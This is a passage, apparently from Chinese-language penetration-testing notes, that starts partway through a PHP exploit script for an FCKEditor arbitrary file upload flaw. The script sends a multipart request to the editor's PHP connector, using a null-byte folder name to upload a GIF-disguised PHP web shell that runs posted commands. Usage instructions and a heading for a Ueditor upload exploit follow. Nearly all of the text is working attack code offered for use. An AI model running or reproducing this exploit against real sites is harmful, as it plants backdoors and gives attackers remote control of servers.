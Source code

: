 ```
while (!feof($sock)) $resp .= fread($sock, 1024);
fclose($sock);
print $resp;
return $resp;
}
function connector_response($html)
{
global $match;
return (preg_match("/OnUploadCompleted\((\d),\"(.*)\"\)/", $html, $match) && in_array($match[1], array(0, 201)));
}
print "\n+------------------------------------------------------------------+";
print "\n| FCKEditor Servelet Arbitrary File Upload Exploit |";
print "\n+------------------------------------------------------------------+\n";
if ($argc < 3)
{
print "\nUsage......: php $argv[0] host path\n";
print "\nExample....: php $argv[0] localhost /\n";
print "\nExample....: php $argv[0] localhost /FCKEditor/\n";
die();
}
$host = $argv[1];
$path = ereg_replace("(/){2,}", "/", $argv[2]);
$filename = "fvck.gif";
$foldername = "fuck.php%00.gif";
$connector = "editor/filemanager/connectors/php/connector.php";
$payload = "-----------------------------265001916915724\r\n";
$payload .= "Content-Disposition: form-data; name=\"NewFile\"; filename=\"{$filename}\"\r\n";
$payload .= "Content-Type: image/jpeg\r\n\r\n";
$payload .= 'GIF89a'."\r\n".'<?php eval($_POST[cmd]) ?>'."\n";
$payload .= "-----------------------------265001916915724--\r\n";
$packet = "POST {$path}{$connector}?Command=FileUpload&Type=Image&CurrentFolder=".$foldername." HTTP/1.0\r\n";//print $packet;
$packet .= "Host: {$host}\r\n";
$packet .= "Content-Type: multipart/form-data; boundary=---------------------------265001916915724\r\n";
$packet .= "Content-Length: ".strlen($payload)."\r\n";
$packet .= "Connection: close\r\n\r\n";
$packet .= $payload;
print $packet;
if (!connector_response(http_send($host, $packet))) die("\n[-] Upload failed!\n");
else print "\n[-] Job done! try http://${host}/$match[2] \n";
?>
```

exp例子

语法：

php exp.php  localhost /FCKEditor/

## Ueditor漏洞利用（任意文件上传）
